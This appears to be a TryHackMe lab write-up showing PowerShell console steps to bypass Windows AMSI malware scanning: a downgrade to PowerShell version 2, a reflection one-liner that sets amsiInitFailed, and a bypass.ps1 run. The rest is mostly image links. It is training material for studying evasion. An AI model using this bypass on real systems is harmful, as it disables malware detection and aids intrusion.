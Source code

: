 
# PowerShell Downgrade

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt0.png)

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt2.png)

# PowerShell Reflection

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt1.png)

```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt3.png)

# Patching AMSI

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt1.png)

```PowerShell
C:\Users\THM-Attacker>cd Desktop
```

```PowerShell
C:\Users\THM-Attacker\Desktop>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

```PowerShell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt3.png)
